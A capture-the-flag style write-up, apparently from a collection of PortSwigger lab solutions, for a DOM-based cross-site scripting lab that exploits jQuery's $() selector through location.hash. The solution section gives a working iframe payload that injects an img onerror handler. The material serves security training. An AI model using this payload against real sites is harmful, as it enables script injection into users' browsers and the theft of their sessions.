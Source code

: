 ----


### Lab Description

This lab contains a [DOM-based cross-site scripting](https://portswigger.net/web-security/cross-site-scripting/dom-based) vulnerability on the home page. It uses jQuery's `$()` selector function to auto-scroll to a given post, whose title is passed via the `location.hash` property.

To solve the lab, deliver an exploit to the victim that calls the `print()` function in their browser.


### Lab Solution

- Add at your exploit server the following payload
```
`<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>`
```